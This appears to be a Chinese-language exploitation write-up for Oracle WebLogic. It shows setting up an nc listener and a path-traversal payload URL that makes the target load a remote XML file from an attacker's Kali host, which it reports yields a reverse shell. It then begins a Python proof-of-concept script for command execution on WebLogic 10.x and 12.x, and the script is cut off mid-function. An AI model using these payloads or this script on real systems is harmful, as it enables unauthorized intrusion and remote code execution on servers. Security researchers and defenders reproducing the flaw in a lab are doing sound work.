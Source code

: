 开启nc监听：

![image-20230222123739809](2024-02-13/image-20230222123739809.png)

尝试使用脚本中-x指令运行，结果有访问记录而无shell反弹，

尝试在浏览器使用get请求

payload:

```http
http://ip:port/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://kaliip/xxx.xml")
```

成功获取shell:

![image-20230222125409094](2024-02-13/image-20230222125409094.png)

### poc.py

```python
#coding:utf-8
import requests
import sys
import argparse
import http.client

http.client.HTTPConnection._http_vsn = 10
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

requests.packages.urllib3.disable_warnings()


#功能1方法：回显命令执行。
def command(url_cmd,headers_cmd,url):
	try:
		res = requests.get(url_cmd, headers = headers_cmd,timeout = 15, verify = False)
		if "<html" not in res.text and "<TITLE" not in res.text :
			print ("[+] Command success result:")
			print (res.text)

		else:
			print ("[-] " + url + " not vulnerable or command error!")
	except Exception as e:
		#print (e)
		print ("[-] " + url + " not vulnerable or command error!")


#功能2方法：无回显，命令执行,适用于Weblogic 10.x、12.x。
def weblogic_12(url_cmd,post_12,headers_12):
	try:
		res = requests.post(url_cmd, data = post_12, headers = headers_12,timeout = 15, verify = False)
		#print ("[+] Attack complete!")
	except Exception as e:
```